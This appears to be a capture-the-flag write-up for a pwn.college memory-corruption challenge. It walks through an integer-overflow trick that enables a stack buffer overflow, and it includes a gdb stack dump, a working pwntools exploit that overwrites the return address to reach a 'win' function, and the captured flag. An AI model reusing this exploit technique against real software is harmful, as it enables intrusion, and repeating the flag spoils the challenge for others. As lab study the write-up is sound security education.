

This problem takes in two input before 

    Number of payload records to send: 2
    Size of each payload record: 2
    Send your payload (up to 4 bytes)!

The size of the buffer is the multiplication of the two 

The problem here is that we cannot enter `-1` and `-1`

The value which is passed to read is 




Which causes Bus error 
    
    temp.c:16:17: warning: ‘read’ specified size 18446744073709551615 exceeds maximum object size 9223372036854775807 [-Wstringop-overflow=]
       16 |     bytesRead = read(STDIN_FILENO, buffer,-1);
          |                 ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    In file included from temp.c:2:
    /usr/include/unistd.h:371:16: note: in a call to function ‘read’ declared with attribute ‘access (write_only, 2, 3)’
      371 | extern ssize_t read (int __fd, void *__buf, size_t __nbytes) __wur
          |                ^~~~
    ❯ ./temp
    Enter some text: Error reading input: Bad address


The read function cannot take signed `-1` which means we have to craft the input so that the multiplication results in an unsigned max int

    Number of payload records to send: 2147483648
    Size of each payload record: 2
    Send your payload (up to 4294967296 bytes)!


    
       0x000000000040236d <+193>:	call   0x40210e <challenge>
       0x0000000000402372 <+198>:	lea    0xeac(%rip),%rdi        # 0x403225
       0x0000000000402379 <+205>:	call   0x401120 <puts@plt>
       0x000000000040237e <+210>:	mov    $0x0,%eax
       0x0000000000402383 <+215>:	leave
       0x0000000000402384 <+216>:	ret
    End of assembler dump.
    (gdb) x /32z $rsp
    0x7ffe0751dfe0:	0xc117a540	0x000073a4	0x0751f178	0x00007ffe
    0x7ffe0751dff0:	0x0751f168	0x00007ffe	0xc1017e93	0x00000001
    0x7ffe0751e000:	0xc11746a0	0x000073a4	0x00000006	0x00000002
    0x7ffe0751e010:	0x41414141	0x000a4141	0x00000000	0x00000000
    0x7ffe0751e020:	0x00000000	0x00000000	0x00402390	0x00000007
    0x7ffe0751e030:	0x0000000c	0x00000000	0x0751e010	0x00007ffe
    0x7ffe0751e040:	0x0751f070	0x00007ffe	0x00402372	0x00000000

The offset is 56

and the address of win function is 0x402007

The payload 
    
```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

FILE = "/challenge/babymem-level-5-1"
HOST = 'pwn.college'
username = 'hacker'
password = '''password'''

port = 22

conn = ssh(user=username, host=HOST, password=password, port=port)

process = conn.process(FILE)

payload = b"A"*56 +  p64(0x402007)
intMax = str((2**31)).encode()
process.recvuntil(b"Number of payload records to send: ")
process.sendline(intMax)
process.recvuntil(b"Size of each payload record: ")
process.sendline(b"2")
process.sendline(payload)
process.interactive()
conn.close()
```

The flag 
    
    pwn.college{c8VpRcJDViGHNQvkCVB7DYj455V.0FO5IDL5kzM1czW}
